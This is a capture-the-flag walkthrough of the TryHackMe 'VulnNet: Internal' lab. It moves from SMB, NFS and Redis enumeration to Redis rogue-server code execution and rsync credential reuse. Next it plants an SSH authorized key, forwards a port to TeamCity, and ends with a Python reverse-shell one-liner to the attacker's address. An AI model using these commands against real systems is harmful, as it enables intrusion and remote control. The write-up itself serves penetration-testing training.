 ```yaml
---
date: 2025-02-20
categories: [CTF, THM]
title: "THM - VulnNet: Internal"
tags: ['privilege escalation', 'python', 'rce', 'reverse shell', 'smb', 'smbmap']

description: "VulnNet Internal - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - VulnNet: Internal

```bash
rustscan -a 10.10.218.65 --ulimit 5000 -- -A
```

![image1](../resources/2a3c44695df3425dbfd814a4fa31ca4b.png)

![image2](../resources/cad653e3ffce4c7ea3a61d896e204d71.png)

- SMBMap:

```bash
smbmap -H 10.10.218.65 -u Guest

```

![image3](../resources/ba1ff9b5304742928cc6071b46c54a0a.png)

```bash
smbclient //10.10.218.65/shares -U Guest

cat services.txt

```
- Connect to redis:

```bash
redis-cli -h 10.10.218.65

```

![image4](../resources/e37cf6ea1a194d189fc7f64e78a6e91d.png)

This means that you need valid credentials to access the Redis instance

- Moving on to NFS (port 2049):

```bash
showmount -e 10.10.218.65

```

![image5](../resources/75210170be5c4e1680843b34f8ff7d74.png)

```bash
mkdir /tmp/vulnnet

sudo mount -t nfs <ip>:<remote_folder> <local_folder> -o nolock

sudo mount -t nfs 10.10.218.65:/opt/conf /tmp/vulnnet -o nolock

```

![image6](../resources/f9f1783652e94019897142ade5bcee6a.png)


![image7](../resources/a750be5423b848d6ab4329387c296136.png)

- Looking in redis directory we get the redis.conf:

![image8](../resources/35252db72c29414e9e97d53121d9c7a1.png)

- Connect to redis again with password:

```bash
redis-cli -h 10.10.218.65 -a B65Hx562F@ggAZ@F

```

![image9](../resources/e0f847875334497097a0bca87a068878.png)

**Redis version: 4.0.9**

**<u>Exploit:</u>**

```bash
redis-cli -h 10.10.193.202 -a B65Hx562F@ggAZ@F

> KEYS *
> get "internal flag"
> LRANGE authlist 1 20

```

![image10](../resources/2025effebecd42fbad2ff91882d9c7db.png)

**OR**


![image11](../resources/ec4b3f4b36a2489185d95f44df0e5b36.png)

<https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis>

<https://github.com/Jean-Francois-C/Database-Security-Audit/blob/master/Redis%20database%20penetration%20testing>

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server.git

./redis-rogue-server.py --rhost 10.10.218.65 --lhost 10.8.24.66 --passwd B65Hx562F@ggAZ@F

```

![image12](../resources/a10b200ef39843d3bdad88fec2240951.png)

- Ran it again
**Interactive:**


![image13](../resources/eac279c5e43342c6b4aef1a46d0ded5d.png)

**Reverse shell:**


![image14](../resources/139332f3f3af4ac9b630b81aa8d36a50.png)


![image15](../resources/6aff8937631d4a2989baf8f2d7c9ca7d.png)

- Upgrade shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- List current directory - Found dump.rdb file:

![image16](../resources/ba7a6b5e83a3493cb09b27771258a5f9.png)

Copy file to Kali:


![image17](../resources/aa1775285df84b20ad6ca6707375f323.png)

Use rdbtools (more readable)

<https://github.com/sripathikrishnan/redis-rdb-tools>

<https://medium.com/@D0rkerDevil/how-i-found-credential-enriched-redis-dump-2b9e808024c4>

```bash
git clone https://github.com/sripathikrishnan/redis-rdb-tools

cd redis-rdb-tools
sudo python setup.py install
rdb --command json dump.rdb -f output.json

```
cat json or copy into a jsonviewer


![image18](../resources/41e377f6f7fe40388d50f29e75f8115f.png)


![image19](../resources/5a3bcf59870046a1a7210cf0034ca675.png)


![image20](../resources/20e9f37bb9d24f27ac24f10add8c7cc0.png)

rsync://rsync-connect@127.0.0.1 with password **Hcg3HP67@TW@Bc72v**

- We know rsync is being used
**Rsync is a utility for efficiently transferring and synchronizing files between computers, drives and networks**

<https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync>

- List the shared folders:

```bash
rsync -av --list-only rsync://10.10.193.202

```

![image21](../resources/95db062e9f5547c19c33c72af1cf170d.png)

- Connect to folder:

```bash
rsync rsync://rsync-connect@10.10.193.202/files

```

![image22](../resources/21f618793743439c9ff0f07cfab1c868.png)

- Copy remote folder's files to Kali:

```bash
mkdir rsync_folder

rsync -av rsync://rsync-connect@10.10.193.202/files rsync_folder

```

![image23](../resources/47c1ae9ec505433e9fa15aa48e0752d9.png)

This recursively transfers all files from the directory \<shared_name\> on the machine \<IP\>into the rsync_folder directory on the local machine


![image24](../resources/ec388f97d5e34a51ab2de78892b3c9dc.png)

```bash
cat user.txt

```
- SSH folder is empty

![image25](../resources/7fe873bdc131490298e89db76231a78d.png)

- Create ssh keypair and upload:

```bash
ssh-keygen -t rsa

```

![image26](../resources/88da37a5a28b4e98ae5adb0f62ae3b5f.png)

```bash
chmod 600 id_rsa

mv id_rsa.pub authorized_keys

chmod 600 authorized_keys

rsync -av authorized_keys rsync://rsync-connect@10.10.193.202/files/sys-internal/.ssh

```
- SSH in:

```bash
ssh -i id_rsa sys-internal@10.10.193.202

```
- TeamCity folder in /
<https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/>


![image27](../resources/ada00581f25447f9b9ea0e1ebfa5f59f.png)

- Check network connections:

```bash
ss -pant

```

![image28](../resources/3e07c2fb3573423398aa6901dc1607d1.png)

Port 8111 is the default port for TeamCity and it's running locally

- Set up port forwarding
<https://www.hackingarticles.in/port-forwarding-tunnelling-cheatsheet/>

```bash
ssh -L 8111:localhost:8111 sys-internal@10.10.193.202 -i id_rsa

```
(The first port number can be anything - used on Kali)

- Go to 127.0.0.1:8111

![image29](../resources/07c3c2eb0ea74ab1b45484847ca7efaf.png)

- Click on Super User link

![image30](../resources/75abd56cf95840e5b6899471a0beb94f.png)
- On the SSH session:

```bash
grep -rnw /TeamCity/ -e "token" 2>/dev/null

```

![image31](../resources/26cd7ef9130a4928804b71b96fe3ff89.png)

- Log in with the token - 8807557903946249045

- Get root shell:
<https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/>


![image32](../resources/29186eef919c4ccdbd83f9ba938f9cb1.png)

```bash
export RHOST="10.8.24.66";export RPORT=4443;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

```

![image33](../resources/ea40f4f34de54db9b08a7a2b36bdfd91.png)